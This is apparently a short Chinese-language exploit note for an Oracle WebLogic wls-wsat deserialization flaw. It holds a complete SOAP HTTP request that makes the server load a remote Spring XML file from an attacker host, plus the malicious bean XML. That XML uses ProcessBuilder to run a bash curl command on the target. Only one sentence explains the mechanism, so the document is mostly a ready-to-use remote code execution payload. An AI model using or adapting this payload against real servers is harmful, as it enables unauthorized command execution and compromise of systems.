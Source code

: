 
>FileSystemXmlApplicationContext类

```
POST /wls-wsat/CoordinatorPortType11;/../x HTTP/1.1
Content-Type: text/xml
SOAPAction: ""
Content-Length: 586
Host: 192.168.132.131
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> <class><string>com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext</string><void><string>
http://192.168.132.1/1.xml
</string></void></class>
    </work:WorkContext>
  </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```

>恶意xml

```
<?xml version="1.0" encoding="utf-8"?>
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>/bin/bash</value>
        <value>-c</value>
        <value><![CDATA[curl http://192.168.132.1/ReadMe.txt]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```
原理使用class创建java实例，使用ClassPathXmlApplicationContext或者FileSystemXmlApplicationContext加载远程xml文件，生成been，在xml中使用init-method设定初始化函数。